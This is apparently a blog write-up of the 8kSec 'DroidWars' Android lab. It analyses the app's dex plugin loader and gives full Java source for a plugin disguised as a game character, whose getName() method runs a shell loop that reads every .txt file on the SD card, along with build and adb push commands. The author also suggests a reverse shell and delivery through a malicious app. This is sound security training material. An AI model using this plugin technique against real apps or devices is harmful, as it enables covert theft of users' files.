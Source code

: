 ```yaml
---
title:  "8kSec DroidWars Writeup"
date:   2025-09-12T16:33:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for DroidWars challenge from 8kSec Android Labs. 

```
Goal:
Goal is to create a plugin that appears legitimate but contains hidden code that, when loaded in DroidWars, steals files stored on the SD card without requiring any additional permissions.
```

## Static Analysis

![](/assets/8ksec_droidwars_images/screen1.png)

Main function of application is showing game characters and their statistics on screen. Every character is a plugin file that loaded from spesific diretory on device. When we open the app in emulator, it shows a pikachu character as example. Also we can refresh the list, clear the plugins, check for malicious plugins and open the debug screen on main activity on settings screen. Lets start our analysis with jadx.

### Code Analysis

Manifest file have only one activity, MainActivity. In MainActivity code, `loadExternalPlugin` method is important for us.With `checkStoragePermissionAndLoadPlugins`, app checking for external storage access and after that it calls that function.

![](/assets/8ksec_droidwars_images/load_plugin.png)

`getAvaliablePlugins` method checks `/sdcard/PokeDex/plugins` directory for external plugins files with `.dex` file extension. If any dex file found, load it with `loadPlugin` method from `pluginLoader` class.

````java
public final PokemonPlugin loadPlugin(String pluginName)

...
...
...

DexClassLoader dexClassLoader = new DexClassLoader(file2.getAbsolutePath(), this.context.getDir("dex", 0).getAbsolutePath(), null, this.context.getClassLoader());
        setupOutputMonitoring();
        Object loadSimplePlugin = loadSimplePlugin(dexClassLoader, pluginName);
        if (loadSimplePlugin != null) {
            Log.d(TAG, "Successfully loaded SimplePlugin implementation");
            Function1<? super String, Unit> function14 = this.onLogMessage;
            if (function14 != null) {
                function14.invoke("Successfully loaded SimplePlugin implementation");
            }
            return new SimplePluginAdapter(loadSimplePlugin);
        }
        for (String str3 : CollectionsKt.listOf((Object[]) new String[]{pluginName + "Plugin", "MaliciousPlugin", StringsKt.removeSuffix(pluginName, (CharSequence) "_copy") + "Plugin", "com.eightksec.droidwars.plugin." + pluginName + "Plugin"})) {
            try {
                String str4 = "Attempting to load class: " + str3;
                Function1<? super String, Unit> function15 = this.onLogMessage;
                if (function15 != null) {
                    function15.invoke(str4);
                }
                loadClass = dexClassLoader.loadClass(str3);
            } catch (ClassNotFoundException unused) {
                String str5 = "Class not found: " + str3;
                Function1<? super String, Unit> function16 = this.onLogMessage;
                if (function16 != null) {
                    function16.invoke(str5);
                    Unit unit = Unit.INSTANCE;
                }

...
...
...
````
`loadPlugin` method generates DexClassLoader object from given dex files and calls `loadSimplePlugin` method with this class loader object.

````java
private final Object loadSimplePlugin(ClassLoader classLoader, String str) {
        Class<?> loadClass;
        for (String str2 : CollectionsKt.listOf((Object[]) new String[]{String.valueOf(StringsKt.removeSuffix(str, (CharSequence) "Plugin")), String.valueOf(str), "MaliciousPlugin"})) {
            try {
                String str3 = "Attempting to load SimplePlugin implementation: " + str2;
                Log.d(TAG, str3);
                Function1<? super String, Unit> function1 = this.onLogMessage;
                if (function1 != null) {
                    function1.invoke(str3);
                }
                loadClass = classLoader.loadClass(str2);
                Intrinsics.checkNotNull(loadClass);
            } catch (ClassNotFoundException unused) {
            ...
            ...
            //some error catch here
            ...
            ...
            }
            if (isSimplePluginImplementation(loadClass)) {
                String str6 = "Found SimplePlugin implementation: " + str2;
                Log.d(TAG, str6);
                Function1<? super String, Unit> function14 = this.onLogMessage;
                if (function14 != null) {
                    function14.invoke(str6);
                }
                classLoader = loadClass.newInstance();
                return classLoader;
            }
            Unit unit3 = Unit.INSTANCE;
        }
        return null;
    }


````
`loadSimplePlugin` method gets plugin name and remove the "Plugin" suffix from it if exist. After that it generate class name list and try to load them in for loop.

```java
// For example: Your plugin name is: TestPlugin.dex


CollectionsKt.listOf((Object[]) new String[]{String.valueOf(StringsKt.removeSuffix(str, (CharSequence) "Plugin")), String.valueOf(str), "MaliciousPlugin"})

// this code generate [Test,TestPlugin,MaliciousPlugin] list and loadClass function try to load them as class

```
But if we set our class name same with dex file name and  give our dex file name like "ClassName.dex or ClassNamePlugin.dex", loadClass method probably give "class not found" error. Because loadClass method use fully qualified class name. For loading the our class without error, we need to set our dex file name as `package_name.class_name.dex`

```
Example:

I will set my class name as 'Pwn'
My package name : 'com.eightksec.droidwars.plugin'

loadClass method expect a 'com.eightksec.droidwars.plugin.Pwn' for loading that class.

loadSimplePlugin method remove suffix from plugin name and use the result as class name, so i need to set my plugin file name as

'com.eightksec.droidwars.plugin.Pwn.dex' 

```
Also `loadSimplePlugin` method checks the plugin format with `isSimplePluginImplementation` method.

````java
private final boolean isSimplePluginImplementation(Class<?> cls) {
        try {
            Method method = cls.getMethod("getName", new Class[0]);
            Method method2 = cls.getMethod("getType", new Class[0]);
            Method method3 = cls.getMethod("getAllData", new Class[0]);
            if (Intrinsics.areEqual(method.getReturnType(), String.class) && Intrinsics.areEqual(method2.getReturnType(), String.class)) {
                return method3.getReturnType().isAssignableFrom(Map.class);
            }
            return false;
        } catch (Exception unused) {
            return false;
        }
    }
````
This method checks that if plugin contains `getName`,`getType` and `getAllData` methods and controls their return types. We have to implement our malicious plugin with this methods.

Here is my pwn plugin code:

```java
package com.eightksec.droidwars.plugin;

import java.util.*;
import java.util.*;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Pwn{

    public String getName() {
        code_exec();
        return "Mal";
    }

    public String getType() {
        return "Pwn";
    }

    public Map<String, Integer> getAllData() {
        Map<String, Integer> stats = new HashMap<>();
        stats.put("HP", 30);
        stats.put("Attack", 31);
        stats.put("Defense", 32);
        stats.put("Sp. Attack", 33);
        stats.put("Sp. Defense", 34);
        stats.put("Speed", 40);
        return stats;
    }

    private void code_exec(){
    try {
        String[] cmd = {
            "/system/bin/sh", "-c",
            "for file in /sdcard/*.txt; do printf '%s\\n' \"$file\"; cat \"$file\"; done"
        };
        Process process = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(
            new InputStreamReader(process.getInputStream())
        );
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println("Stolen data: " + line);
        }
        process.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    
}
```

I wrote `code_exec` method for shell command execution. I called it inside `getName` method because this method is called during listing the plugins. For creating dex file from java file, i got some help from stackoverflow and chatgpt :) 

```sh
$ javac Pwn.java

$ jar cvf Pwn.jar Pwn.class

$ ~/Android/Sdk/build-tools/32.0.0/d8 --output . Pwn.jar

$ mv classes.dex com.eightksec.droidwars.plugin.Pwn.dex

$ adb push com.eightksec.droidwars.plugin.Pwn.dex /sdcard/PokeDex/plugins

```
After pushing the plugin to plugin directory and start the app, we can see the logs that we send from our malicious plugin.

![](/assets/8ksec_droidwars_images/stolen.png)

In real life scenarios, instead of getting files, we can get reverse shell. Also we can put our malicious plugin via malicious application. But here thats enough :)

Thats all, see you!

PoC Video: [Youtube](https://youtu.be/iqDgs8dpDf8)
